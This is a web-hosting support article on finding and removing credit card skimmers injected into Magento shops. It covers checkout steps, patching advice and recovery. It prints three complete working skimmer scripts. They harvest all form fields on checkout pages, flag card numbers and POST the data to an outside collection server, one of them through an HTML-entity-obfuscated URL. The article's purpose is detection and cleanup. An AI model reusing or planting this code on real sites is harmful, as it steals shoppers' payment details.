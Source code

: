 ```yaml
---
myst:
  html_meta:
    description: "Learn how to fix the malicious Credit Card Hijack in Magento and\
      \ protect your customers' financial data. "
    title: How to fix malicious Javascript Credit Card Hijacks? | Hypernode
redirect_from:
  - /en/best-practices/security/how-to-fix-malicious-javascript-credit-card-hijack/
---
```


<!-- source: https://support.hypernode.com/en/best-practices/security/how-to-fix-malicious-javascript-credit-card-hijack/ -->

# How to Fix Malicious Javascript Credit Card Hijack

The hack *Credit card Hijack* is malicious code in Magento that allows hackers to intercept financial data, such as credit card credentials. This article further explains what this security breach means, what the consequences are and how you can fix it.

*We recommend checking your site with*[*Magereport.com*](http://magereport.com/)*for other vulnerabilities.*

## What Is Credit Card Hijack?

The Credit Card Hijack is the collective name of multiple credit card skimmers which may be injected in Magento and allows hackers to capture unencrypted credit card details (like credentials). Known names are the **MagentoCore** skimmer and the **MageCart** skimmer.

This check indicates whether your shop is injected with malware. However, it is not possible for MageReport to check which malware infected your shop.

With this relatively new way of hacking, malware is added in the browser of your websites’ visitors. This malware intercepts the credit card credentials the moment your customer types them in their browser. At this point the credentials aren’t encrypted yet.

In 2015 we analyzed the malware and found out that a staggering amount of 3500 Magento shops are part of a zombie network that interfere credit card credentials, and send this data to so called command&control servers. (Command&control servers are a network of servers where hackers collect this sort of data). This was the first time we encountered an automated credit card fraud on this scale. It’s obvious hackers have massively improved in becoming more professional in automating large-scale credit card fraud.

[Read more about Credit card Hijack](https://www.byte.nl/blog/widespread-credit-card-hijacking-discovered)

We suspect this leak has been made possible due to unpatched Magento shops. So if you haven’t completely patched your Magento shop yet, make sure you do. Use Magereport.com to check if there are any patches not yet installed.

## What Are the Consequences?

Credit Card Hijack allows hackers to intercept your customers financial data. With this information they can commit global credit card fraud, causing a lot of financial damage.

The fraud can be traced back to May 12th 2015, which implies the malpractice went unnoticed for months and is still active.

## How Do I Fix It?

*Fixing this breach is not an easy task. If you don’t have a lot of knowledge of Magento’s security, we recommend you hire an Magento developer or specialist experienced in Magento security.*

### Apply All Available Magento Patches

Scan your shop with [Magereport.com](http://magereport.com/) to find out which patches have been and have not been installed yet. When a patch isn’t installed, install it with the instructions given.

### Review and Remove

Review all admin users in your system via Magento’s backend (navigate to system>Permissions>Roles). Remove any accounts which you are not actively using and set strong passwords for all admin users you do use.

### Remove Unknown Scripts (PHP & Javascript)

Search your shop for scripts similar to the ones below and remove them. Searching and removing can be done via Magento’s backend. Once logged in to your backend (screenshots below):

1. Navigate to ‘System’ -> Configuration
   ![](_res/_EC5-TnORl1F5LROwDSHdbtXWyqhY6zx7A.png)
1. Go to ‘Design’ under ‘General’
   ![](_res/OYuuBvfAcJuTp9mnQ5m0uHdmap9USRS9nw.png)
1. Scroll down and open HTML Head to check ‘Miscellaneous Scripts’
   ![](_res/RSWx-oakxkntqQ5Mwws3vH6n_vSonTqKXg.png)
1. Scroll down and open Footer to check Miscellaneous HTML
   ![](_res/RUyelZfnnB8vcjKWctD9LYMDicwjrgdaQg.png)

**If Miscellaneous scripts and Miscellaneous HTML are empty, you’re most likely safe. If not, check if they contain the scripts below.**

The script below is an example of a minified version of the [scraper Javascript](https://blog.sucuri.net/2015/06/magento-platform-targeted-by-credit-card-scrapers.html).

```javascript
function jj(e){var t="; "+document.cookie,o=t.split("; "+e+"=");return 2==o.length?o.pop().split(";").shift():void 0}jj("SESSIID")||(document.cookie="SESSIID="+(new Date).getTime()),jQuery(function(e){e("button").on("click",function(){var t="",o="post",n=window.location;if(new RegExp("onepage|checkout").test(n)){for(var c=document.querySelectorAll("input, select, textarea, checkbox"),i=0;i&lt;c.length;i++)if(c[i].value.length&gt;0){var a=c[i].name;""==a&amp;&amp;(a=i),t+=a+"="+c[i].value+"&amp;"}if(t){var l=new RegExp("[0-9]{13,16}"),u=new XMLHttpRequest;u.open(o,e("&lt;div /&gt;").html("&amp;#104;&amp;#116;&amp;#116;&amp;#112;&amp;#115;&amp;#58;&amp;#47;&amp;#47;&amp;#98;&amp;#97;&amp;#100;&amp;#46;&amp;#103;&amp;#117;&amp;#121;&amp;#47;&amp;#106;&amp;#113;&amp;#117;&amp;#101;&amp;#114;&amp;#121;&amp;#46;&amp;#112;&amp;#104;&amp;#112; ").text(),!0),u.setRequestHeader("Content-type","application/x-www-form-urlencoded"),u.send(t+"&amp;asd="+(l.test(t.replace(/s/g,""))?1:0)+"&amp;utmp="+n+"&amp;cookie="+jj("SESSIID")),console.clear()}}})});
```

The script below is an example of Credit Card Hijack’s malicious code. It installs the functions ‘send’ and ‘clk’, which allows hackers to collect the names and content of every common form input element, when your customer clicks a button or submits a form.

```javascript
var snd =null;
window.onload = function () {
 if((new RegExp('onepage')).test(window.location)) {
 send();

 }
};

function clk() {
 var inp=document.querySelectorAll("input, select, textarea, checkbox");
 for (var i=0;i&lt;inp.length;i++){
 if(inp[i].value.length&gt;0) {
 var nme=inp[i].name;
 if(nme=='') { nme=i; }
 snd+=inp[i].name+'='+inp[i].value+'&amp;';
 }
 }

}

function send() {
var btn=document.querySelectorAll("a[href*='javascript:void(0)'],button, input, submit, .btn, .button");
 for (var i=0;i&lt;btn.length;i++){
 var b=btn[i];
 if(b.type!='text' &amp;&amp; b.type!='select' &amp;&amp; b.type!='checkbox' &amp;&amp; b.type!='password' &amp;&amp; b.type!='radio') {
 if(b.addEventListener) {
 b.addEventListener("click", clk, false);
 }else {
 b.attachEvent('onclick', clk);
 }
 }
 }

 var frm=document.querySelectorAll("form");
 for (var i=0;i&lt;frm.length;i++){
 if(frm[i].addEventListener) {
 frm[i].addEventListener("submit", clk, false);
 }else {
 frm[i].attachEvent('onsubmit', clk);
 }
 }

 if(snd!=null) {
 console.clear();
 var cc = new RegExp("[0-9]{13,16}");
 var asd="0";
 if(cc.test(snd)){
 asd="1" ;
 }
var http = new XMLHttpRequest();
http.open("POST","https://bad.guy/jquery.php",true);
http.setRequestHeader("Content-type","application/x-www-form-urlencoded");
http.send("data="+snd+"&amp;asd="+asd+"&amp;id_id=ano.nym");
console.clear();
 }
 snd=null;
 setTimeout('send()', 150);
}
```

The script below was found during the research done by Hypernode. It covers the same functionality as the script above, but is harder to spot because it’s included in a minimised form. In this script Jquery is used to add unnamed click event-handler to every button on the page. If someone clicks the button, the function is triggered and allowed to collect al input data. It checks for credit card numbers and this information is sent off to their data collection server.

```javascript
 function jj(e) {
 var t = "; " + document.cookie
 , o = t.split("; " + e + "=");
 return 2 == o.length ? o.pop().split(";").shift() : void 0
 }
 jj("SESSIID") || (document.cookie = "SESSIID=" + (new Date).getTime())
 , jQuery(function (e) {
 e("button").on("click", function () {
 var t = ""
 , o = "post"
 , n = window.location;
 if (new RegExp("onepage|checkout").test(n)) {
 for (var c = document.querySelectorAll("input, select, textarea, checkbox"), i = 0; i &lt; c.length; i++)
 if (c[i].value.length &gt; 0) {
 var a = c[i].name;
 "" == a &amp;&amp; (a = i)
 , t += a + "=" + c[i].value + "&amp;"
 }
 if (t) {
 var l = new RegExp("[0-9]{13,16}")
 , u = new XMLHttpRequest;
 u.open(o, e("&lt;div /&gt;").html("&amp;#104;&amp;#116;&amp;#116;&amp;#112;&amp;#115;&amp;#58;&amp;#47;&amp;#47;&amp;#98;&amp;#97;&amp;#100;&amp;#46;&amp;#103;&amp;#117;&amp;#121;&amp;#47;&amp;#106;&amp;#113;&amp;#117;&amp;#101;&amp;#114;&amp;#121;&amp;#46;&amp;#112;&amp;#104;&amp;#112; ").text(), !0)
 , u.setRequestHeader("Content-type", "application/x-www-form-urlencoded")
 , u.send(t + "&amp;asd=" + (l.test(t.replace(/s/g, "")) ? 1 : 0) + "&amp;utmp=" + n + "&amp;cookie=" + jj("SESSIID"))
 , console.clear()
 }
 }
 })
 });
```

## Recover Your Shop

Since Credit Card Hijack is an ongoing credit card fraud dating from May 2015, it’s difficult to pinpoint how exactly the hackers got in. We assume it’s due to a combination of various know Magento leaks. It’s likely hackers used these security vulnerablities to set up this credit card fraud.

We recommend you ‘clean’ your shop following the steps written in the article [Recover a Hacked Magento Shop](../../best-practices/security/how-to-recover-a-hacked-magento-shop.md) after installing all Magento patches, deleting inactive Magento admins and removing malicious code.

## Need Help?

Magento is no easy open source CMS. Although we’re very skilled in hosting Magento shops, making them fast and keeping conversion high, we’re no Magento developers. Luckily, we know a lot of agencies that do know a lot about how Magento works. If you need help, don’t hesitate to [contact one of these agencies](https://www.magereport.com/page/support).
